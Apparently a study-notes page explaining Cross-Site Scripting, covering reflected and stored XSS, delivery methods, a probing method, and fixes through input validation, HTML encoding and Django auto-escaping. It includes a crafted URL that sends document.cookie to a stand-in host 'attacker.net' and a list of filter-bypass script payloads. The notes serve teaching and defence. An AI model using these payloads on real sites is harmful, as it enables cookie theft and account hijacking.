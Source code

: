 Cross-Site Scripting (XSS) is a kind of code injection attack in which an attacker inserts arbitrary Javascript code into the page of attacked web site that will be executed in visitor's web browser when he opens the page. The built-in code will be executed in the scope of the attacked domain, which is a bypass Same-origin policy.

This is a client-side attacking technique.

## Reflected XSS

The server that hosts the web aplication takes the parameter from the URL that is requested from the client (user) and simply render the parameter's content back to the user:

```
http://www.example.com/error.html?msg=<script>alert(1);</script>
```

And we say the site is vulnerable to XSS.

An attacker can exploit this vulnerability:

<img src="reflected-xss.png" />

Elaborate: the crafted URL can be something like `http://www.example.com/error.html?msg=<script>var+i=new+Image;+i.src="http://attacker.net/"%2bdocument.cookie;</script>`. The attacker monitors for the traffic to his site `attacker.net` and steal the user's cookie on the `example.com` site.

Question: If the attacker can feed the crafted URL to the user, Why doesn’t he simply host a malicious script on `attacker.net` and feed the user a direct link to this script? This is due to the same-origin policy: on the user's browser, different domains don't interfere with each other. If there were something like `document.cookie` in the malicious script, it would return the user's cookie on attacker.net, not `example.com`.

## Stored XSS

Data submitted by user is stored in the application and then is displayed to other users without being filtered or sanitized appropriately.

2 steps:
- the attacker posts some crafted data containing malicious code that the application stores.
- a victim views a page containing the attacker’s data, and the malicious code is executed when the script is executed in the victim’s browser.

---

Trust relationships that XSS may exploit:
- Browsers trust JavaScript received from a website with the cookies issued by that website.
- If the application employs forms with autocomplete enabled, JavaScript issued by the application can capture any previously entered data that the user’s browser has stored in the autocomplete cache. By instantiating the relevant form, waiting for the browser to autocomplete its contents, and then querying the form field values, the script may be able to steal this data and transmit it to the attacker’s server.

---

Methods to deliver reflected attack:
- Send a forged email.
- The attacker creates his own website with content that induce victims to click.
- Hide the crafted URL in the ads.

---

Finding XSS vulnerabilities: submit a string such as `><script>alert(document.cookie)</script><` as every parameter to every page of the application, and monitor the responses for the appearance of the same string.

If cases are found where the attack string appears unmodified within the response, the application is almost certainly vulnerable to XSS.

To circumvent the application's defensive filters, some of these can be tried:
```
“><script >alert(document.cookie)</script >
“><ScRiPt>alert(document.cookie)</ScRiPt>
“%3e%3cscript%3ealert(document.cookie)%3c/script%3e
“><scr<script>ipt>alert(document.cookie)</scr</script>ipt>
%00“><script>alert(document.cookie)</script>
```

---

The root cause of XSS is that user-controllable data is copied into application responses without adequate validation and sanitization.

To eliminate XSS vulnerabilities:
- first step is to identify every instance withing the application where user-controllable data is being copied into responses.
- validate input:
  - data is not too long
  - data contains only a permitted set of characters
  - data matches a particular regular expression
- validate output: applications can perform HTML encoding of user-controllabel DOM data before insert it into the document:
  ```
  function sanitize(str) {
    var d = document.createElement('div');
    d.appendChild(document.createTextNode(str));
    return d.innerHTML;
  }
  ```
  
---

How does Django protect the site against major XSS attacks?:
- https://docs.djangoproject.com/en/2.1/topics/security/#cross-site-scripting-xss-protection
- https://docs.djangoproject.com/en/2.1/ref/templates/language/#automatic-html-escaping


